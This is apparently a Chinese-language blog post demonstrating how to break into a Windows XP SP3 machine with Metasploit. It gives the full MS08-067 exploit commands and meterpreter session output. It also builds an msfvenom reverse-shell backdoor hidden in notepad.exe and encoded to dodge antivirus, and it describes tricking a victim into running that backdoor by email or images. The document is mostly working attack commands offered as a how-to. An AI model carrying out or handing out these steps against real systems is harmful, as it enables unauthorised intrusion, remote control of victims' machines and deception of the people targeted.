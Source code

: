 ```yaml
---
layout: post
title: 演示使用Metasploit入侵Windows
---
```


我使用Kali Linux的IP地址是192.168.0.112；在同一局域网内有一台运行Windows XP（192.168.0.108）的测试电脑。

本文演示怎么使用Metasploit入侵windows xp sp3。

启动msfconsole：

{% highlight shell %}
# msfconsole
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 15-24-25.png)

选择一个漏洞：

{% highlight shell %}
msf > search platform: windows xp sp3 
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 17-17-46.png)

exploit/windows/smb/ms08_067_netapi是08年发现的漏洞，等级Great。

查看某个漏洞的详细信息；包含使用方法、支持的平台等等，非常有帮助：

{% highlight shell %}
msf > info exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 17-24-32.png)

依次执行如下命令：

{% highlight shell %}
msf > use exploit/windows/smb/ms08_067_netapi
> set payload windows/meterpreter/bind_tcp
> set RHOST 192.168.0.108  (设置目标主机IP地址)
> exploit
{% endhighlight %}

如果目标主机有这个漏洞的话，你就可以控制它了；如果没有，尝试使用其他漏洞。

```
[*] Started bind handler
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP SP3 - Service Pack 3 - lang:Chinese
[*] Selected Target: Windows XP SP3 Chinese (AlwaysOn NK)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (751104 bytes) to 192.168.0.108
[*] Meterpreter session 1 opened (192.168.0.1:41614 -> 192.168.0.108:4444) at 2016-04-15 17:29:32

meterpreter >
```

现在你就可以控制目标主机了，可以截屏、录音、视频、下载文件、杀进程等等；使用help查看可以执行的命令。

****

## 演示使用后门程序侵入Windows

原理：在Kali Linux上生成后门程序，然后把它发送给受害者，欺骗受害者运行（使用邮件、图片等等）。难点是需要过杀毒软件和防火墙。

生成后门程序：

我把后门程序隐藏到记事本程序中：notepad.exe

查看Kali Linux的IP：ifconfig（192.168.0.112）

创建后门程序，my_backdoor.exe：

{% highlight shell %}
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4445 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > my_backdoor.exe
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 18-24-42.png)

上面命令使用加密试图躲过杀毒软件，但是，不要期望它可以生效。使用man msfvenom查看帮助。

把它发送到Windows系统，并运行；如果不能运行换用其他加密方式。

启动msfconsole：

{% highlight shell %}
# msfconsole
{% endhighlight %}

```
use exploit/multi/handler

set LHOST 192.168.0.112
set LPORT 4445
set payload windows/meterpreter/reverse_tcp
show options
exploit
```

等待受害者启动后门程序。

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 19-01-13.png)

OK，入侵成功。

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 19-08-43.png)

[Metasploit的基本使用](http://topspeedsnail.com/kali-linux-metasploit-base-use/)